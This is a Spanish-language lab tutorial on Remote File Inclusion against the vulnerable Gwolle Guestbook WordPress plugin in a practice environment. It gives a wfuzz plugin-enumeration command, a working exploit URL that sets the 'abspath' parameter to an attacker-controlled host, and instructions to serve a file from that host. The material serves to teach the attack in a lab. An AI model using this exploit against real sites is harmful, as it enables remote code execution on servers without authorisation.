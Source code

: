# Remote File Inclusión (RFI)

Tags: #RFI #OWASP #Explotacion

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

- **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

- **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)

## Código

Para descubrir si tiene el Plugin de **gwolle-gb**

```bash 
❯ wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://❮IP❯/FUZZ

# hc -> HideCode 404
# c -> Formato colorido
# w -> Ruta del diccionario
# FUZZ -> Donde va a insertar las palabras el diccionario
# t -> Lanzar tareas en paralelo al mismo tiempo
```

**Nota**: El PHP de la victima debe de tener '**allow_url_include = 'ON'**', de lo contrario no va a funcionar
Podemos explotar la vulnerabilidad agregando desde '/wp-content/' esto a la url de la pagina web:

```bash 
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/ # Colocamos nuestra IP y lo que hara ese comando es intentar cargar un archivo 'GET /wp-load.php HTTP/1.0'
```

Debemos de tener activo un servidor http en nuestra maquina de atacante

```bash 
❯ python3 -m http.server 80 # Nos montamos un servidor http 80
```

